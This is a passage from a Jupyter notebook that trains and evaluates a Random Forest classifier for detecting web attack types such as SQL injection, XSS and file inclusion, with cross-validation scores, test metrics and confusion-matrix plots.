    "min_samples_leaf": 1,
    "random_state": 42,
    "n_jobs": -1,
    "class_weight": "balanced"
}

# =============================================================================
# Feature Selector
# =============================================================================

class FeatureSelector(BaseEstimator, TransformerMixin):
    """
    Selects the predefined FEATURE_COLS from an engineered DataFrame
    and returns a float32 numpy array.
    """

    def __init__(self, feature_cols: list):
        self.feature_cols = feature_cols

    def fit(self, X: pd.DataFrame, y=None):
        return self

    def transform(self, X: pd.DataFrame, y=None) -> np.ndarray:
        available = [c for c in self.feature_cols if c in X.columns]

        if len(available) < len(self.feature_cols):
            missing = set(self.feature_cols) - set(available)
            logger.warning(
                f"[Selector] Missing columns filled with 0: {missing}"
            )

        arr = X.reindex(columns=self.feature_cols, fill_value=0)
        return arr.values.astype(np.float32)

# =============================================================================
# Random Forest Pipeline Builder
# =============================================================================

def build_rf_pipeline(rf_params: dict = None) -> Pipeline:
    """
    Assemble and return the complete Threat Detection Pipeline
    using Random Forest.
    """

    params = rf_params or RF_PARAMS.copy()

    pipeline = Pipeline(steps=[
        ("cleaner",   DataCleanerTransformer()),
        ("feat_eng",  FeatureEngineeringTransformer()),
        ("encoder",   CategoricalEncoderTransformer()),
        ("selector",  FeatureSelector(feature_cols=FEATURE_COLS)),
        ("rf",        RandomForestClassifier(**params)),
    ])

    return pipeline

# =============================================================================
# Create Random Forest Pipeline
# =============================================================================

rf_pipeline = build_rf_pipeline()

print("✅ Random Forest Threat Detection Pipeline assembled.")

print("\nPipeline steps:")
for name, step in rf_pipeline.steps:
    print(f"   {name:<12} → {type(step).__name__}")

✅ Random Forest Threat Detection Pipeline assembled.

Pipeline steps:
   cleaner      → DataCleanerTransformer
   feat_eng     → FeatureEngineeringTransformer
   encoder      → CategoricalEncoderTransformer
   selector     → FeatureSelector
   rf           → RandomForestClassifier


In [44]:
# import joblib

# joblib.dump(rf_pipeline.named_steps["model"], "rf_model.pkl")

In [45]:
# # ── Prepare raw DataFrames for pipeline (pipeline expects DataFrame input) ────
# df_clean_indexed = df_clean.reset_index(drop=True)
# y_all = target_encoder.fit_transform(df_clean_indexed[TARGET_COL])

# # Stratified splits on the cleaned (but not yet feature-engineered) DataFrame
# df_trainval, df_test_raw, y_trainval_raw, y_test_raw = train_test_split(
#     df_clean_indexed, y_all,
#     test_size=TEST_RATIO, random_state=RANDOM_STATE, stratify=y_all
# )
# df_train_raw, df_val_raw, y_train_raw, y_val_raw = train_test_split(
#     df_trainval, y_trainval_raw,
#     test_size=VAL_RATIO / (TRAIN_RATIO + VAL_RATIO),
#     random_state=RANDOM_STATE,
#     stratify=y_trainval_raw
# )

# print(f"✅ Raw DataFrames prepared for pipeline:")
# print(f"   Train : {df_train_raw.shape}  |  y: {y_train_raw.shape}")
# print(f"   Val   : {df_val_raw.shape}  |  y: {y_val_raw.shape}")
# print(f"   Test  : {df_test_raw.shape}  |  y: {y_test_raw.shape}")


In [46]:
# # ── Compute sample weights for class imbalance ───────────────────────────────
# from sklearn.utils.class_weight import compute_sample_weight

# sample_weights_train = compute_sample_weight(class_weight="balanced", y=y_train_raw)
# print(f"✅ Sample weights computed. Shape: {sample_weights_train.shape}")
# print(f"   Weight range: [{sample_weights_train.min():.4f}, {sample_weights_train.max():.4f}]")


In [47]:
# ── 5-Fold Cross-Validation (on training set) ────────────────────────────────

print("⏳ Running 5-fold cross-validation on training data...")

skf = StratifiedKFold(
    n_splits=5,
    shuffle=True,
    random_state=RANDOM_STATE
)

cv_scores = []

for fold, (tr_idx, vl_idx) in enumerate(
    skf.split(df_train_raw, y_train_raw), 1
):

    X_cv_tr = df_train_raw.iloc[tr_idx].reset_index(drop=True)
    y_cv_tr = y_train_raw[tr_idx]

    X_cv_vl = df_train_raw.iloc[vl_idx].reset_index(drop=True)
    y_cv_vl = y_train_raw[vl_idx]

    sw_cv = compute_sample_weight(
        class_weight="balanced",
        y=y_cv_tr
    )

    # Build a fresh RF pipeline
    fold_pipeline = build_rf_pipeline()

    # Train Random Forest
    fold_pipeline.fit(
        X_cv_tr,
        y_cv_tr,
        rf__sample_weight=sw_cv
    )

    # Predict
    y_cv_pred = fold_pipeline.predict(X_cv_vl)

    # Score
    fold_f1 = f1_score(
        y_cv_vl,
        y_cv_pred,
        average="weighted"
    )

    cv_scores.append(fold_f1)

    print(f"   Fold {fold}: Weighted F1 = {fold_f1:.4f}")

print("\n✅ Cross-validation complete.")
print(
    f"   Mean Weighted F1 : "
    f"{np.mean(cv_scores):.4f} ± {np.std(cv_scores):.4f}"
)

⏳ Running 5-fold cross-validation on training data...


INFO: [Cleaner] Cleaning complete. Output shape: (55999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (14000, 10)


   Fold 1: Weighted F1 = 0.9303


INFO: [Cleaner] Cleaning complete. Output shape: (55999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (14000, 10)


   Fold 2: Weighted F1 = 0.9338


...

   Fold 3: Weighted F1 = 0.9357


INFO: [Cleaner] Cleaning complete. Output shape: (55999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (14000, 10)


   Fold 4: Weighted F1 = 0.9369


INFO: [Cleaner] Cleaning complete. Output shape: (56000, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']
INFO: [Cleaner] Cleaning complete. Output shape: (13999, 10)


   Fold 5: Weighted F1 = 0.9328

✅ Cross-validation complete.
   Mean Weighted F1 : 0.9339 ± 0.0023


In [48]:
print('ll')

ll


In [49]:
# ── Final Model Training on Full Training Set ────────────────────────────────

print("⏳ Training final Threat Detection Random Forest model...")
print(f"   Training rows : {len(df_train_raw):,}")
print(f"   Features      : {len(FEATURE_COLS)}")
print(f"   Classes       : {NUM_CLASSES}")

# Build RF pipeline
rf_pipeline = build_rf_pipeline()

# Compute sample weights (still useful for imbalance)
sample_weights_train = compute_sample_weight(
    class_weight="balanced",
    y=y_train_raw
)

# ── Train full pipeline ──────────────────────────────────────────────────────
rf_pipeline.fit(
    df_train_raw,
    y_train_raw,
    rf__sample_weight=sample_weights_train
)

print("\n✅ Final Random Forest model trained.")

# ── Extract model ────────────────────────────────────────────────────────────
rf_model = rf_pipeline.named_steps["rf"]

print(f"Trees used: {rf_model.n_estimators}")

⏳ Training final Threat Detection Random Forest model...
   Training rows : 69,999
   Features      : 33
   Classes       : 9


INFO: [Cleaner] Cleaning complete. Output shape: (69999, 10)
INFO: [Encoder] Fitted. Encoded columns: ['method_type', 'browser_type']



✅ Final Random Forest model trained.
Trees used: 500


In [50]:
# ── Test Set Predictions ─────────────────────────────────────────────────────
y_pred      = rf_pipeline.predict(df_test_raw)
y_pred_prob = rf_pipeline.predict_proba(df_test_raw)

# ── Metrics ───────────────────────────────────────────────────────────────────
acc      = accuracy_score(y_test_raw, y_pred)
bal_acc  = balanced_accuracy_score(y_test_raw, y_pred)
prec_w   = precision_score(y_test_raw, y_pred, average="weighted", zero_division=0)
rec_w    = recall_score(y_test_raw, y_pred, average="weighted", zero_division=0)
f1_w     = f1_score(y_test_raw, y_pred, average="weighted", zero_division=0)
f1_mac   = f1_score(y_test_raw, y_pred, average="macro", zero_division=0)
f1_mic   = f1_score(y_test_raw, y_pred, average="micro", zero_division=0)

print("=" * 60)
print("  TEST SET EVALUATION RESULTS (Random Forest)")
print("=" * 60)
print(f"  Accuracy             : {acc:.4f}  ({acc*100:.2f}%)")
print(f"  Balanced Accuracy    : {bal_acc:.4f}")
print(f"  Precision (weighted) : {prec_w:.4f}")
print(f"  Recall    (weighted) : {rec_w:.4f}")
print(f"  F1        (weighted) : {f1_w:.4f}")
print(f"  F1        (macro)    : {f1_mac:.4f}")
print(f"  F1        (micro)    : {f1_mic:.4f}")
print("=" * 60)

print("\n📋 Classification Report:")
print(classification_report(
    y_test_raw, y_pred,
    target_names=CLASS_NAMES,
    digits=4,
    zero_division=0
))

INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)
INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)


  TEST SET EVALUATION RESULTS (Random Forest)
  Accuracy             : 0.9376  (93.76%)
  Balanced Accuracy    : 0.9259
  Precision (weighted) : 0.9398
  Recall    (weighted) : 0.9376
  F1        (weighted) : 0.9368
  F1        (macro)    : 0.9400
  F1        (micro)    : 0.9376

📋 Classification Report:
                     precision    recall  f1-score   support

  benign_suspicious     0.9463    0.8071    0.8712      2250
         bruteforce     0.9565    0.9533    0.9549       600
  command_injection     0.9333    0.7700    0.8438       600
directory_traversal     0.9940    0.9410    0.9667      1050
                lfi     0.9169    0.9283    0.9226      1200
             normal     0.8876    0.9747    0.9291      5250
                rfi     0.9933    0.9857    0.9895      1050
      sql_injection     0.9918    0.9733    0.9825      1500
                xss     1.0000    1.0000    1.0000      1500

           accuracy                         0.9376     15000
          macro avg  

INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)


[[1816    5    3    0    4  422    0    0    0]
 [   2  572    0    0    2   24    0    0    0]
 [   1    1  462    1   20  107    1    7    0]
 [   0    0    7  988   49    0    1    5    0]
 [   1    3    5    3 1114   69    5    0    0]
 [  98   16    8    0   11 5117    0    0    0]
 [   0    0    0    0   15    0 1035    0    0]
 [   1    1   10    2    0   26    0 1460    0]
 [   0    0    0    0    0    0    0    0 1500]]




✅ Random Forest confusion matrix rendered.


In [51]:
# ── Confusion Matrix ──────────────────────────────────────────────────────────

rf_pred = rf_pipeline.predict(df_test_raw)

cm = confusion_matrix(y_test_raw, rf_pred)
print(cm)

# Safe normalization (avoids division by zero)
cm_norm = cm.astype(float) / np.clip(cm.sum(axis=1, keepdims=True), 1, None)

fig, axes = plt.subplots(1, 2, figsize=(18, 7))
fig.suptitle("Random Forest — Confusion Matrix (Test Set)", fontsize=14, fontweight="bold")

# ── Absolute counts ───────────────────────────────────────────────────────────
ax = axes[0]
sns.heatmap(
    cm,
    annot=True,
    fmt="d",
    cmap="Blues",
    xticklabels=CLASS_NAMES,
    yticklabels=CLASS_NAMES,
    linewidths=0.5,
    ax=ax,
    cbar=True
)
ax.set_title("Absolute Counts")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

# ── Normalized (recall per class) ────────────────────────────────────────────
ax = axes[1]
sns.heatmap(
    cm_norm,
    annot=True,
    fmt=".2%",
    cmap="RdYlGn",
    xticklabels=CLASS_NAMES,
    yticklabels=CLASS_NAMES,
    linewidths=0.5,
    vmin=0,
    vmax=1,
    ax=ax,
    cbar=True
)
ax.set_title("Row-Normalized (Recall per Class)")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

plt.tight_layout()
plt.savefig(r"D:\c4\results\rf_confusion_matrix.png", bbox_inches="tight", dpi=110)

plt.show()
print("✅ Random Forest confusion matrix rendered.")

INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)


[[1816    5    3    0    4  422    0    0    0]
 [   2  572    0    0    2   24    0    0    0]
 [   1    1  462    1   20  107    1    7    0]
 [   0    0    7  988   49    0    1    5    0]
 [   1    3    5    3 1114   69    5    0    0]
 [  98   16    8    0   11 5117    0    0    0]
 [   0    0    0    0   15    0 1035    0    0]
 [   1    1   10    2    0   26    0 1460    0]
 [   0    0    0    0    0    0    0    0 1500]]




✅ Random Forest confusion matrix rendered.


In [52]:
# ── Confusion Matrix ──────────────────────────────────────────────────────────

rf_pred = rf_pipeline.predict(df_test_raw)

# Original confusion matrix
cm = confusion_matrix(y_test_raw, rf_pred)
print(cm)

# Exclude class 0 (remove first row and first column)
cm = cm[1:, 1:]
class_names = CLASS_NAMES[1:]

# Safe normalization (avoids division by zero)
cm_norm = cm.astype(float) / np.clip(cm.sum(axis=1, keepdims=True), 1, None)

fig, axes = plt.subplots(1, 2, figsize=(18, 7))
fig.suptitle("Random Forest — Confusion Matrix (Test Set)", fontsize=14, fontweight="bold")

# ── Absolute counts ───────────────────────────────────────────────────────────
ax = axes[0]
sns.heatmap(
    cm,
    annot=True,
    fmt="d",
    cmap="Blues",
    xticklabels=class_names,
    yticklabels=class_names,
    linewidths=0.5,
    ax=ax,
    cbar=True
)
ax.set_title("Absolute Counts")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

# ── Normalized (Recall per Class) ─────────────────────────────────────────────
ax = axes[1]
sns.heatmap(
    cm_norm,
    annot=True,
    fmt=".2%",
    cmap="RdYlGn",
    xticklabels=class_names,
    yticklabels=class_names,
    linewidths=0.5,
    vmin=0,
    vmax=1,
    ax=ax,
    cbar=True
)
ax.set_title("Row-Normalized (Recall per Class)")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

plt.tight_layout()
plt.savefig(r"D:\c4\results\rf_confusion_matrix.png", bbox_inches="tight", dpi=110)

plt.show()
print("✅ Random Forest confusion matrix rendered.")



✅ Random Forest class-wise performance chart rendered.


In [53]:
# ── Class-wise Performance Chart ─────────────────────────────────────────────

report_dict = {}

report_str = classification_report(
    y_test_raw,
    rf_pred,
    target_names=CLASS_NAMES,
    output_dict=True,
    zero_division=0
)

metrics_df = pd.DataFrame(report_str).T.loc[
    CLASS_NAMES,
    ["precision", "recall", "f1-score"]
]

metrics_df = metrics_df.astype(float)

fig, ax = plt.subplots(figsize=(14, 6))

x = np.arange(len(CLASS_NAMES))
width = 0.25

bars1 = ax.bar(
    x - width,
    metrics_df["precision"],
    width,
    label="Precision",
    color="#3498db",
    edgecolor="white"
)

bars2 = ax.bar(
    x,
    metrics_df["recall"],
    width,
    label="Recall",
    color="#2ecc71",
    edgecolor="white"
)

bars3 = ax.bar(
    x + width,
    metrics_df["f1-score"],
    width,
    label="F1-Score",
    color="#e74c3c",
    edgecolor="white"
)

ax.set_title("Random Forest — Per-Class Precision / Recall / F1 (Test Set)",
             fontsize=13, fontweight="bold")

ax.set_xlabel("Attack Class")
ax.set_ylabel("Score")
ax.set_xticks(x)
ax.set_xticklabels(CLASS_NAMES, rotation=25, ha="right")
ax.set_ylim(0, 1.10)

ax.legend(fontsize=10)

ax.axhline(
    0.90,
    color="gray",
    linestyle="--",
    linewidth=0.8,
    alpha=0.7,
    label="0.90 target"
)

for bar_group in [bars1, bars2, bars3]:
    for bar in bar_group:
        h = bar.get_height()
        ax.text(
            bar.get_x() + bar.get_width() / 2,
            h + 0.01,
            f"{h:.2f}",
            ha="center",
            va="bottom",
            fontsize=7
        )

plt.tight_layout()
plt.savefig(r"D:\c4\results\rf_class_performance.png",
            bbox_inches="tight",
            dpi=110)

plt.show()

print("✅ Random Forest class-wise performance chart rendered.")



✅ Random Forest class-wise performance chart rendered.


In [54]:
# ── Class-wise Performance Chart ─────────────────────────────────────────────

report_dict = {}

report_str = classification_report(
    y_test_raw,
    rf_pred,
    target_names=CLASS_NAMES,
    output_dict=True,
    zero_division=0
)

metrics_df = pd.DataFrame(report_str).T.loc[
    CLASS_NAMES,
    ["precision", "recall", "f1-score"]
].astype(float)

# ------------------------------------------------------------------
# Remove class 0 (benign_suspicious) for plotting
# ------------------------------------------------------------------
metrics_df = metrics_df.iloc[1:]
class_names = CLASS_NAMES[1:]

fig, ax = plt.subplots(figsize=(14, 6))

x = np.arange(len(class_names))
width = 0.25

bars1 = ax.bar(
    x - width,
    metrics_df["precision"],
    width,
    label="Precision",
    color="#3498db",
    edgecolor="white"
)

bars2 = ax.bar(
    x,
    metrics_df["recall"],
    width,
    label="Recall",
    color="#2ecc71",
    edgecolor="white"
)

bars3 = ax.bar(
    x + width,
    metrics_df["f1-score"],
    width,
    label="F1-Score",
    color="#e74c3c",
    edgecolor="white"
)

ax.set_title(
    "Random Forest — Per-Class Precision / Recall / F1 (Test Set)",
    fontsize=13,
    fontweight="bold"
)

ax.set_xlabel("Attack Class")
ax.set_ylabel("Score")
ax.set_xticks(x)
ax.set_xticklabels(class_names, rotation=25, ha="right")
ax.set_ylim(0, 1.10)

ax.legend(fontsize=10)

ax.axhline(
    0.90,
    color="gray",
    linestyle="--",
    linewidth=0.8,
    alpha=0.7,
    label="0.90 target"
)

for bar_group in [bars1, bars2, bars3]:
    for bar in bar_group:
        h = bar.get_height()
        ax.text(
            bar.get_x() + bar.get_width() / 2,
            h + 0.01,
            f"{h:.2f}",
            ha="center",
            va="bottom",
            fontsize=7
        )

plt.tight_layout()
plt.savefig(
    r"D:\c4\results\rf_class_performance.png",
    bbox_inches="tight",
    dpi=110
)

plt.show()

print("✅ Random Forest class-wise performance chart rendered.")

